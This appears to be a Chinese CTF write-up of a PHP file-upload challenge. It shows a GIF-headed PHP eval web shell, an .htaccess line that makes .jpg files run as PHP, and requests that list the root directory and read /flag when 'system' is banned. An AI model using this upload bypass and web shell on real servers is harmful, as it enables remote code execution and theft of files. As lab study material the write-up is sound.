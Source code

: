 ![[Pasted image 20221107195420.png]]
先随便传个png上去试试
![[Pasted image 20221107200358.png]]
经过一番尝试发现接受jpeg类型
![[Pasted image 20221107200345.png]]
改为html风格发现上传成功
![[Pasted image 20221107200720.png]]
```html
GIF98a
<script language='php'>eval($_GET['cmd']);</script>
```
尝试上传.htaccess，将对jpg文件的访问方式修改
![[Pasted image 20221107201553.png]]
```
AddType application/x-httpd-php .jpg
```
访问
```php
/upload/xxx/tmp.jpg?cmd=phpinfo();
```
![[Pasted image 20221107201905.png]]
成功上传
由于`system`被ban，通过`scandir`来查看目录
```php
/?cmd=var_dump(scandir('/'));
```
![[Pasted image 20221107202258.png]]
最后用`file_get_contents`读取
```php
/?cmd=var_dump(file_get_contents('/flag'));
```
![[Pasted image 20221107202336.png]]
学到的知识用上了，开心QwQ
#Web #文件上传 #RCE #PHP #绕过 